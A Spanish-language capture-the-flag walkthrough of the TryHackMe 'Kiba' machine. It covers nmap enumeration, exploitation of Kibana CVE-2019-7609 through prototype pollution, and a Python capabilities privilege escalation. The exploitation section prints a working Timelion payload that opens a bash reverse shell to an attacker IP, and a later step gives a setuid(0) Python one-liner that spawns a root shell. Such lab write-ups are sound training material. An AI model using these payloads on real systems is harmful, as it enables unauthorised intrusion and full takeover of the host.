








La maquina `kiba` es de nivel **easy** en la cual se explota una vulnerabilidad de prototype pollution para tener acceso a la maquina y para escalar privilegios hacemos uso de capabilities de python3


- Link de la maquina: [Kiba](https://tryhackme.com/room/kiba)

- Created by [stuxnet](https://tryhackme.com/p/stuxnet)

# Metodología
- Enumeración
  - Escaneo de puertos
  - Enumeración del puerto 80
  - Enumeración del puerto 5601
- Explotación
  - Kibana - cve-2019-7609
- Escalar Privilegios
  - Enumeración del sistemas
  - Capabilities

# Walkthrough

## Enumeración

### Escaneo de puertos

Empezamos a realizar un escaneo de los puertos con la harramienta `nmap`
```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP] -Pn -n  -oG allportsScan
```

**Los parametros que usamos fueron**:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

En los resultados vemos los puertos `22`, `80`, `5044`, `5601` de los cuales enumeramos las versiones y servicios de los puertos abierto

```java
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack
```

Ahora, enumeraremos los los servicios de los puertos abiertos, con la finalidad de encontrar algun servicio que se pueda explotar

```java
❯ nmap -p22,80,5044,5601 -sV -sC -Pn -vvv [IP] -oN servicesScan
```
**Los parametros que usamos para enumerar son**:

`-p22,80,5044,5601`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22, 80, 5044 y 5601. Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP]`: Debes reemplazar [IP] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

El resultado que no da `nmap` es:

```java
PORT     STATE SERVICE      REASON  VERSION
22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdVrdscXW6Eaq1+q+MgEBuU8ngjH5elzu6EOX2UJzNKcvAgxLrV0gCtWb4dJiJ2TyCLmA5lr0+8/TCInbcNfvXbmMEjxv0H3mi4Wjc/6wLECBXmEBvPX/SUyxPQb9YusTj70qGxgyI6SCB13TKftGeHOn2YRGLkudRF5ptIWYZqRnwlmYDWvuEBotWyUpfC1fGEnk7iH6gr3XJ8pwhY8wOojWaXEPsSZux3iBO52GuHILC14OiR/rQz9jxsq4brm6Zk/RhPCt1Ct/5ytsPzmUi7Nvwz6UoR6AeSRSHxOCnNBRQc2+5tFY7JMBBtvOFtbASOleILHkmTJBuRK3jth5D
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2fQ/bb8Gwa5L5++T3T5JC7ZvciybYTlcWE9Djbzuco0f86gp3GOzTeVaDuhOWkR6J3fwxxwDWPk6k7NacceG0=
|   256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJk7PJIcjNmxjQK6/M1zKyptfTrUS2l0ZsELrO3prOA0
80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5044/tcp open  lxi-evntsvc? syn-ack
5601/tcp open  esmagent?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 05 Nov 2023 17:10:48 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 05 Nov 2023 17:10:43 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 05 Nov 2023 17:10:43 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.94%I=7%D=11/5%Time=6547CBD5%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2005\x20Nov\x202023\x2017:10:43\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2005\x20Nov\x202023\x2017:10:43\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2005\x20Nov\x202023\x2017:10:48\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
```

### Puerto 80 

La web en el puerto `80` nos muestra una imagen con un texto que pueda ser una pista para escala privilegios, pero no hay nada mas.



### Puerto 5601

En el puerto `5601` encontramos un un panel `kibana`, que buscando un poco nos dice que es una herramienta diseñada para la visualización y explotación de datos indexados en el motor de análisis y búsquedas ElasticSearch



Algo que siempre debemos tener en cuenta cuando estamos enumerando es la versión del servicio, ya que esta puede tener alguna vulneravilidad que no fue corregida



## Explotación 

### Kibana - CVE-2019-7609

La versión de `kibana` tiene una vulnerabilida que salió en el 2019 [CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609). Usaremos el esta vulnerabilida para ejecutar comandos y enviarnos una shell a nuestra maquina atacante

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.115.196/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
Inyectando el anterior codigo en el apartado de `timelion` y hacemos un click en el boton de play 



Ahora vamos a `Canvas` y debemos obtener nuestra shell



## Escalada de Privilegios

### Usuario - Kibana

Enumerando la maquina victima, nos encontramos que podemos usar `capabilities` para escalar priviliegios

```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
```




### Capabilities

Para explotar esta vulnerabilidad tenemos el el siguiente recurso: [Linux - capabilities](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/linux-capabilities.md#exploitation-example). Asi entenderesmo mejor de que trata esta vulnerabilidad




Bien, ahora lo entendemos mejor y podemos replicar haciendo lo siguiente.

```
kiba@ubuntu:/home/kiba/kibana/bin$ /home/kiba/.hackmeplease/python3  -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

Vamos a entender un poco más de lo que estamos haciendo:

`-c`: Esta opción se utiliza para indicar a Python que ejecute una cadena de comandos directamente desde la línea de comandos. A continuación de esta opción, se proporciona la cadena de comandos que Python ejecutará.

`'import os; os.setuid(0); os.system("/bin/bash");'`: Esta es la cadena de comandos en lenguaje Python que se ejecutará. Veamos cada parte de esta cadena:

`import os`: Esto importa el módulo os en Python. El módulo os proporciona funcionalidad para interactuar con el sistema operativo, incluida la capacidad de ejecutar comandos del sistema.

`os.setuid(0)`: Esta línea de código intenta establecer el ID de usuario efectivo (UID) en 0, que es el UID del superusuario o root. Esto se hace para obtener privilegios de superusuario en el sistema.

`os.system("/bin/bash")`: Esta línea de código ejecuta el comando "/bin/bash", que inicia una instancia de la shell de Bash. Dado que se ha intentado establecer el UID en 0 previamente, este comando se ejecutará con privilegios de superusuario, lo que permite el acceso completo al sistema.

### Usuario - root




¡VAMOS!

Happy Hacking :)

